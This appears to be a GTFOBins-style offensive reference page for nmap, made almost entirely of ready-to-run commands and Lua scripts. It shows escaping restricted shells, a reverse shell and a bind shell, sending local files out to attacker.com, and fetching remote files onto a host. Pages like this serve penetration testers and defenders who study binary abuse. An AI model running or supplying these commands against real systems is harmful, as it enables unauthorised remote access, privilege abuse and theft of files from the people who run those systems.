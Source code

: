 # GTFOBin: nmap

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Input echo is disabled.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
nmap --interactive
nmap> !sh
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
TF=$(mktemp)
echo 'local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
while true do
  local r,x=t:receive();local f=assert(io.popen(r,"r"));
  local b=assert(f:read("*a"));t:send(b);
end;
f:close();t:close();' > $TF
nmap --script=$TF
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
export LPORT=12345
TF=$(mktemp)
echo 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
while true do
  local r,x=c:receive();local f=assert(io.popen(r,"r"));
  local b=assert(f:read("*a"));c:send(b);
end;c:close();f:close();' > $TF
nmap --script=$TF
```

## File upload

It can exfiltrate files on the network.

Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.

```
RHOST=attacker.com
RPORT=8080
LFILE=file_to_send
nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
TF=$(mktemp)
echo 'local f=io.open(os.getenv("LFILE"), 'rb')
local d=f:read("*a")
io.close(f);
local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
t:send(d);
t:close();' > $TF
nmap --script=$TF
```

## File download

It can download remote files.

Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.

```
RHOST=attacker.com
RPORT=8080
TF=$(mktemp -d)
LFILE=file_to_save
nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.

```
export LPORT=12345
export LFILE=file_to_save
TF=$(mktemp)
echo 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
local d,x=c:receive("*a");
c:close();
local f=io.open(os.getenv("LFILE"), "wb");
f:write(d);
io.close(f);' > $TF
nmap --script=$TF
```